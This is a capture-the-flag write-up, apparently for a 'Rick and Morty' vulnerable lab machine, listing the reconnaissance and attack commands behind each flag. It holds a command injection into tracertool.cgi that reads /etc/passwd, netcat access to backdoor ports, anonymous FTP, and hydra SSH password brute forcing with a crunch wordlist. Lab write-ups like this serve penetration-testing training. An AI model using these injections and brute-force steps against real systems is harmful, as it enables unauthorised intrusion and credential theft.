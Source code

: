 +++
title = "write up de nbenny"
weight = 0

[extra]
author = "nbenny"
points = 130
translations = [
    "activités/ateliers-pentest/pentest01/nbenny.en.md"
]
+++

``` sh
arp-scan -l -I eth0
nikto -host 10.0.2.11
Mozilla - http://10.0.2.11/passwords/FLAG.txt
```

**FLAG{Yeah d- just don't do it.} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nikto -host 10.0.2.11 -port 9090
Mozilla - http://10.0.2.11:9090
```

**FLAG {There is no Zeus, in your face!} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nc 10.0.2.11 13337
```

**FLAG {They Found My Back Door Morty} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
```

``` sh
ftp 10.0.2.11 21
```

basic set login on ftp

- id: Anonymous
- pwd: Anonymous

``` sh
get FLAG.txt
quit
```

``` sh
cat FLAG.txt
```

**FLAG{Whoa this is unexpected} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nc 10.0.2.11 60000
ls ; cat FLAG.txt
```

**FLAG{Flip the pickle Morty!} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nikto -host 10.0.2.11 -port 80
dirb http://10.0.2.11/
Mozilla http://10.0.2.11/robots.txt
Mozilla http://10.0.2.11/cgi-bin/tracertool.cgi
```

- insert in tracertool.cgi `;head -1000 /etc/passwd`
- press trace!
- user found -> **Ricksanchez**, **Morty** et **Summer**

``` sh
Mozilla http://10.0.2.11/passwords/passwords.html
```

- inspect element:
- commentaire = Password: **winter**

``` sh
ssh Summer@10.0.2.11 -p 22222
```

password = winter

``` sh
cat FLAG.txt
```

afficher l entete du fichier

``` sh
head FLAG.txt
```

**FLAG{Get off the high road Summer!} - 10 Points**

----------

``` sh
cd /home/Morty
head Safe_Password.jpg
```

The Safe Password: File: /home/Morty/journal.txt.zip. **Password: Meeseek**

``` sh
scp -P 22222 Summer@10.0.2.11:/home/Morty/journal.txt.zip ./
exit
unzip journal.txt.zip
cat journal.txt
```

**FLAG{131333} - 20 Points**

----------

``` sh
ssh Summer@10.0.2.11 -p 22222
cd ~
cp ../RickSanchez/RICKS_SAFE/safe .
./safe 131333
```

**FLAG{And Awwwaaaaayyyy we Go!} - 20 Points**

----------

``` sh
crunch 10 10 azertyuiopqsdfghjklmwxcvbn0123456789AZERTYUIOPQSDFGHJKLMWXCVBN > passfinal
hydra -l RickSanchez -P passfinal ssh://10.0.2.11 -s 22222
```

password: P7Curtains

``` sh
ssh RickSanchez@10.0.2.11 -p 22222
sudo -l
cd
head FLAG.txt
```

**FLAG{Ironic Defibrillator} - 30 points**
